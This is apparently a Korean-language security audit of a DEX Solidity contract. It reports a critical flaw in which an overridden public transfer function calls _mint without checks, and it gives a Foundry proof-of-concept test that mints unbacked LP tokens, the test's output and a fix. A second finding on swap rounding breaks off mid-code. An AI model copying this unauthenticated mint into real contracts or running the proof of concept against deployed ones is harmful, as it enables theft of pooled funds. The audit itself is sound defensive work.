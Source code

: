 # 김지우

## public transfer & mint LP token
#### Dex.sol:transfer:162
****critical (공격 파급력: High, 공격 난이도: Low)****

```solidity
function transfer(address to, uint256 lpAmount) override public returns (bool){
        _mint(to, lpAmount);
        return true;
    }
```

이번에도 ERC20컨트랙트를 상속하고 있는 DEX컨트랙트에서 transfer함수를 오버라이딩해서 _mint함수를 호출하고 있고, 별도의 검증은 없고, public 가시성 지정자로 설정해 놨다.

#### PoC

```solidity
function testTransferVisibility() external {
    vm.startPrank(user1);
    dex.transfer(address(this), 1000 ether);
    uint amount = dex.balanceOf(address(this));
    console.log("balanceOf user1's LPtoken: %d", amount);
    amount = dex.totalSupply();
    console.log("amountOf LPtoken totalSupply: %d", amount);
    vm.stopPrank();
    assertTrue(!(amount == 1000 ether), "testTransferVisibility Error");
}
```

```solidity
[FAIL. Reason: Assertion failed.] testTransferVisibility() (gas: 73950)
Logs:
  balanceOf user1's LPtoken: 1000000000000000000000
  amountOf LPtoken totalSupply: 1000000000000000000000
  Error: testTransferVisibility Error
  Error: Assertion Failed
```

#### 해결방안

transfer함수에서 _mint함수를 호출한다는 점, _mint함수를 호출하는 transfer함수가 가시성 지정자가 public이고, 별도의 인증이 없다는 점이 문제이다.

그렇기때문에 transfer함수를 오버라이딩 하지 않고, _mint함수를 호출해서 토큰을 민팅하는 방식으로 고치면 된다.

## **swap small amount round down**
#### Dex.sol:swap:77,83
**Informational (파급력: Low, 공격 난이도: Low)**

```solidity
function swap(uint256 tokenXAmount, uint256 tokenYAmount, uint256 tokenMinimumOutputAmount) external returns (uint256 outputAmount){
    require((tokenXAmount>0 && tokenYAmount==0) || (tokenXAmount==0 && tokenYAmount>0));
    
    uint X;
    uint Y;
    (X,Y)=update();

    require(X>0 && Y>0);

    uint input_amount;
    uint output_amount;
    ERC20 input;
```